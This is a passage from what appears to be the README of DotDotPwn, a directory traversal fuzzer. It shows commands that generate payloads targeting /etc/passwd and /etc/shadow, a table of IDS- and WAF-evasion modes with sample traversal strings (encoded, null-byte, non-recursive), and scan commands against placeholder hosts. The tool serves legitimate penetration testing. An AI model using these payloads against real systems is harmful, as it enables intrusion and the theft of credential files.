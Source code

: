 ```bash
python dotdotpwn.py generate --file /etc/shadow --depth 3 --output patterns.txt --absolute

# Quiet mode for scripting
python dotdotpwn.py generate --file /etc/passwd --quiet --absolute > payloads.txt
```

## 🛡️ Detection Methods for IDS Evasion

The `--detection-method` (`-D`) parameter allows you to choose specific attack methods to avoid triggering intrusion detection systems:

| Method            | Payloads | Traffic Level    | Use Case                      | Example Pattern                       |
| ----------------- | -------- | ---------------- | ----------------------------- | ------------------------------------- |
| `simple`          | 24       | 🟢 Ultra Stealth | Basic recon, evade monitoring | `../../../etc/passwd`                 |
| `url_encoding`    | 30       | 🟢 Ultra Stealth | WAF bypass, filter evasion    | `%2e%2e%2f/etc/passwd`                |
| `non_recursive`   | 71       | 🟢 Stealth       | Non-recursive filter bypass   | `....//....//....//etc/passwd`        |
| `absolute_path`   | 23K      | 🟡 Moderate      | Direct path injection         | `/etc/passwd`                         |
| `null_byte`       | 75K      | 🟠 High Volume   | Extension validation bypass   | `../../../etc/passwd%00.png`          |
| `path_validation` | 1.7M     | 🔴 Very High     | Complex validation bypass     | `/var/www/images/../../../etc/passwd` |
| `any`             | 1.9M     | 🔴 IDS Trigger   | Comprehensive testing         | All methods combined                  |

### Detection Method Examples

```bash
# Ultra stealth HTTP scan (24 payloads)
python dotdotpwn.py main --module http --host target.com --detection-method simple

# URL encoding bypass for WAF evasion (30 payloads)
python dotdotpwn.py main --module http --host target.com --detection-method url_encoding

# Non-recursive filter bypass (71 payloads)
python dotdotpwn.py main --module ftp --host ftp.target.com --detection-method non_recursive

# Path validation bypass for enterprise apps (1.7M payloads)
python dotdotpwn.py main --module http --host enterprise.com --detection-method path_validation

# Traditional comprehensive scan (1.9M payloads - may trigger IDS)
python dotdotpwn.py main --module http --host target.com --detection-method any
```

## 🔢 Understanding the Depth Parameter

The **depth parameter** (`-d`, `--depth`, `--max-depth`) is one of the most critical settings in directory traversal testing. It controls how many directory levels the tool traverses upward to reach target files.

### 📊 How Depth Works
